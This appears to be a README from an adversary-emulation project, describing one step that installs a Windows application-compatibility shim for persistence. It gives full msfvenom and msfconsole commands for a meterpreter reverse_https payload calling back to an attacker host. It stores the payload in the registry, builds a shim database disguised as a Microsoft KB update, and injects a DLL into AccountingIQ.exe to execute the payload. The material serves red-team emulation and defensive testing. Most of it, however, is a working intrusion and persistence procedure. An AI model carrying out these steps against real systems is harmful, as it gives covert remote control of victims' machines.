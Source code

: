 # Step 19 File Descriptions, Role in Emulation, and Execution Flow

### bin329.tmp

`bin329.tmp` is a 32bit [sRDI converted meterpreter dll](https://github.com/monoxgas/sRDI).
  -  `msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_https LHOST=192.168.0.4 LPORT=53 -f dll -o payload.dll`
  - `git clone https://github.com/monoxgas/sRDI`
  - `python3 sRDI/Python/ConvertToShellcode.py payload.dll`
  - `mv payload.bin bin329.tmp`

  From `sudo msfconsole`
   - `handler -p windows/meterpreter/reverse_https -H 192.168.0.4 -P 53`


This payload will be stored in the registry at `HKLM\SOFTWARE\Microsoft\DRM\4` as a binary value by [prep_and_install_shim.ps1](prep_and_install_shim.ps1)


### prep_and_install_shim.ps1

Launch from an interactive administrator PowerShell, [prep_and_install_shim.ps1](prep_and_install_shim.ps1) stores bin329.tmp into the registry, copies over files to `C:\Windows\Temp`, and installs the applicatin shim via `sdbinst.exe`. 

### dll329.dll

`dll329.dll` is a custom statically compiled dll that is injected into the `AccountingIQ.exe` application via the InjectDLL application shim when the application is launched. Its purpose is to spawn a donor process(SyncHost.exe), inject into it, read the payload registry key, and execute the payload.

[Code for this dll can be found in injectDLL-Shim](InjectDLL-Shim.)

Simply click the `.sln` file to open with Visual Studio Code 2019. Then compile.

### sdbE376.tmp

`sdbE376.tmp` is the application shim database file. It contains the information on which to process to appy what shim to with which parameters. For this technique we are targeting `AccountingIQ.exe` with an `InjectDLL` shim with a parameter of `C:\Windows\Temp\dll329.tmp`.

#### Generating an sdb file from scratch

Download the [Windows Assessment and Deployment Kit for Windows 10](https://support.microsoft.com/en-us/help/4027209/oems-adk-download-for-windows-10). You only need to select the `Application Compatibility Toolkit` during installation. 

From an Administrator PowerShell/CMD shell 
 - `cd "C:\Program Files (x86)\Windows Kits\10\Assessment and Deployment Kit\Application Compatibility Toolkit\Compatibility Administrator (32-bit)"`
 - `.\Compatadmin.exe /x`
   - `/x` is an undocumented argument that will enable more shims

- Click `Fix` to begin
  - `AccountingIQ` for name of program
  - `Microsoft` for name of vendor 
  - Browse to program you would like to shim (AccountingIQ.exe)

- Click `Next` to skip the Compatability Mode section

- Select the `InjectDLL` shim by checking the box to its left
  - Click `Parameters`
  - Under `Command line` put the path to the DLL to inject - `C:\Windows\Temp\dll329.dll`
  - `OK`
  - `Next`

- Unselect all check boxes so that the shim will fire on any application that shares the name `AccountingIQ.exe`

- `Finish`

- Save Database as `Microsoft KB2832077` - Following CTI

- Save the SDB file to `C:\Windows\Temp\sdbE376.sdb` - `sdbE376.tmp`

- Open PowerShell
  - `mv C:\Windows\Temp\sdbE376.sdb C:\Windows\Temp\sdbE376.tmp`
  - `sdbinst.exe  C:\Windows\Temp\sdbE376.tmp`

The shim is now installed

## Execution Flow

1) Encoded PowerShell 
    - Drops `sdbE376.tmp` and `dll329.dll` to `C:\Windows\Temp`
    - Sets Reg key with binary data of meterpreter payload to `HKLM:\Software\Microsoft\DRM\4`
    - Invokes `sdbinst.exe` on `sdbE376.tmp` - Installs shim

2) Box is rebooted

3) Login over RDP onto system

4) Shim fires on launch of `AccountingIQ.exe` at login
    - `dll329.dll` is injected into `AccountingIQ.exe` via InjectDLL shim
    - `dll329.dll` spawns `C:\Windows\SysWOW64\SyncHost.exe` as a donor process
    - `dll329.dll` injects and maps a function into `SyncHost.exe`
    - Function runing in `SyncHost.exe` now reads payload from `HKLM:\Software\Microsoft\DRM\4` and executes it

5) User level meterpreter session is spawned


### Process Tree of Execution

![Process Tree of Execution](ProcessExplorer_ProcessTree.png)

## Uninstallation

Removing the shim can be done in two ways:

1) `sdbinst.exe -u sdbE376.tmp`

2) Open `Control Panel\Programs\Programs and Features` and look for the `Microsoft KB2832077` database name and uninstall it.
